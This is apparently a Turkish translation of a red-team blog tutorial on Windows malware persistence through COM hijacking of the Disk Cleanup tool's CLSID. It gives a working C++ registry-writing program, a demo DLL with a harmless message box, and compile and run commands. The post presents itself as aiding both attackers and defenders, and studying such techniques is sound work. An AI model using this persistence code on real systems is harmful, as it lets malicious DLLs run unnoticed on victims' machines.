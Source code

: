 \newpage
\subsection{85. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 19. Disk Temizleme Aracı. Basit C++ örneği.}

﷽

![pers](./images/80/2022-11-18_07-59.png){width="80%"}    

Bu gönderi, kötü amaçlı yazılımlarda kalıcılığı sağlamak için kullanılabilecek en ilginç yöntemlerden biri olan **Disk Temizleme Aracı** ile kalıcılık sağlamaya dayanmaktadır.    

### disk temizleme

Eğer sabit diskinizde yetersiz alan sorunu yaşadıysanız, Disk Temizleme aracına mutlaka aşinasınız:    

![pers](./images/80/2022-11-18_08-06.png){width="80%"}    

Kırmızı takım üyeleri için güzel haber, kullanıcı arayüzünde gösterilen *"Silinecek dosyalar"* listesi rastgele değil. Sadece şu komutu çalıştırın:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![pers](./images/80/2022-11-18_04-42.png){width="80%"}    

![pers](./images/80/2022-11-18_04-44.png){width="80%"}    

Gördüğünüz gibi, burada kayıt defteri anahtarlarının varsayılan değerleri bile mevcut.    

Ayrıca, eğer `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>` değerine sahipsek, başka bir kayıt defteri anahtar değeri bulabiliriz: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![pers](./images/80/2022-11-18_04-51.png){width="80%"}    

![pers](./images/80/2022-11-18_04-54.png){width="80%"}    

> Demo amacıyla, burada HKEY_CLASSES_ROOT kayıt defterinden bir örnek gösteriyorum, çünkü HKEY_CURRENT_USER boş

Bu da, kalıcılık sağlamak için [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) kullanabileceğimizi gösteriyor. Haydi deneyelim.    


### pratik örnek

Öncelikle, her zamanki gibi, "kötü" DLL'i oluşturalım (`hack.cpp`):      

```cpp
/*
hack.cpp
basit DLL
yazar: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, 
LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Her zamanki gibi, basitlik açısından sadece `meow-meow` mesaj kutusu bulunuyor.    

Ardından kalıcılık sağlayan betiği oluşturalım (`pers.cpp`):      

```cpp
/*
pers.cpp
Disk Temizleyici aracıyla Windows kalıcılığı
yazar: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // alt anahtar
  const char* sk = 
  "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}"
  "\\InprocServer32";

  // kötü amaçlı DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // başlangıç
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // yeni kayıt defteri anahtarları oluştur
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("alt anahtar değeri oluşturulamıyor :(
");
    return -1;
  }
  return 0;
}
```

CLSID olarak `8369AB20-56C9-11D0-94E8-00AA0059CE02` kullandım. Görebildiğiniz gibi, kod [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) gönderisine benzemektedir. Fark yalnızca değişken değerlerinde bulunmaktadır.   

### demo

Haydi "kötü" DLL'imizi derleyelim:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

![pers](./images/80/2022-11-18_05-14.png){width="80%"}    

Ve kalıcılık betiğini derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/80/2022-11-18_05-17.png){width="80%"}    

Hedef makineye kopyalayın. Benim durumumda `Windows 10 x64`. Çalıştırın:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

![pers](./images/80/2022-11-18_07-56.png){width="80%"}    

![pers](./images/80/2022-11-18_07-57.png){width="80%"}    

Gördüğünüz gibi, her şey mükemmel çalıştı! =^..^=     

Ancak kalıcılık için kullanıcının Disk Temizleme Aracı'nı çalıştırması gerekmektedir. Burada, kalıcılık sağlamak için [klasik yöntemlerden birini](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) kullanabilirim. Disk Temizleme'yi başlatma sırasında çalıştırmak en iyi fikir olmayabilir, çünkü bir grafik arayüzü vardır. Bu programın komut satırı argümanlarını kullanmayı denedim:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

Ancak başarısız oldu :(. Program doğru çalıştı:       

![pers](./images/80/2022-11-18_08-45.png){width="80%"}    

Sanırım bu konuya gelecekteki gönderilerimden birinde geri döneceğim.       

Ayrıca, Microsoft belgelerine göre, şu konuma yeni girdi ekleyebiliriz: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`      

Bu taktiğin vahşi ortamda herhangi bir APT tarafından kullanılıp kullanılmadığını bilmiyorum, ancak bu gönderinin mavi takım üyelerinin farkındalığını artırmasını ve kırmızı takım üyelerinin cephaneliğine bir silah eklemesini umuyorum.    

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)       
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)     

